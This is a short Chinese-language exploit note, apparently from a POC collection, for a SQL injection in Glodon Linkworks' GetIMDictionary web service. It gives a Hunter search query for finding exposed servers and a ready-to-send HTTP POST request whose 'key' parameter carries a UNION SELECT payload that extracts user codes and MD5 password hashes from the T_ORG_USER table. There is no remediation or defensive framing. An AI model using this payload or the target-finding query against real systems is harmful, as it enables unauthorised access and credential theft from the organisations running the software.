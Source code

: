 # 广联达 Linkworks GetIMDictionary SQL注入漏洞

## 网络测绘

hunter: web.body="/Services/Identification/"

## POC / EXP

```
POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded

key=1' UNION ALL SELECT top 1 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --
```